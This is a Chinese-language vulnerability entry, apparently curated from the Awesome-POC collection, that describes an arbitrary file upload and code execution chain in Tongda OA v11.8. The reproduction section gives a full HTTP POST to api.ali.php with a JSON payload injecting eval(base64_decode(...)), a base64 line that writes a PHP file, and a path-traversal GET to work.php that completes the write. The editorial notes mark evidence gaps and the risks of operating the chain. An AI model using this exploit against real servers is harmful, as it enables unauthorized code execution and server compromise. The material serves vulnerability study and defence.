


# 通达OA api.ali JSON上传及package/work处理代码执行链

## 条目说明

- 对象与具体问题：通达OA；api.ali JSON上传及package/work处理代码执行链
- 版本、配置及部署条件：11.8，路径日期和安装目录相关
- 认证与权限前提：无Cookie示例，未独立证实
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 并非仅上传可执行文件，需第二阶段解析JSON执行并写文件
- Base64包含PHP phpinfo但解码展示空字符串，内容丢失
- 硬编码2109/myoa不能通用；首次响应所需ID/路径解析未说明
- 缺根因/修复build及完整最终响应

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件控制服务器

### 漏洞影响

```
通达OA v11.8
```

### 漏洞复现

登陆页面


向 api.ali.php 发送请求包

```http
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

> 请求长度说明：原资料 Content-Length 为 422；保留原始标头；其数值未据实际请求体重新计算或验证。

参数a base解码

```
ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==
file_put_contents('../../fb6790f4.php','');
```



再发送GET请求写入文件，页面返回`+OK`

```
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

其中请求中对 2109 为 年月,路径为 `/fb6790f4.php,`




---

> 来源：Threekiii/Awesome-POC
